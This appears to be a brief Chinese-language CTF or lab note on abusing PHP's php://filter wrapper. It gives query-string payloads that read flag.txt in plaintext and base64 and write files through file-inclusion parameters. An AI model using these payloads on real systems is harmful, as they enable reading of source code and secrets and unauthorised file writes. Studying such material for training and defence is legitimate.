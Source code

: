 读取文件

```
payload:
#明文读取
?file1=php://filter/resource=flag.txt

#编码读取
?file1=php://filter/read=convert.base64-encode/resource=flag.txt
```

![image-20210908163606366](images/2.png)

编码读取

![image-20210908163549018](images/3.png)

写入文件

```
payload:
#明文写入
?file2=php://filter/resource=filter.txt&txt=helloworld

#编码写入
?file2=php://filter/write=convert.base64-encode/resource=filter2.txt&txt=helloworld
```
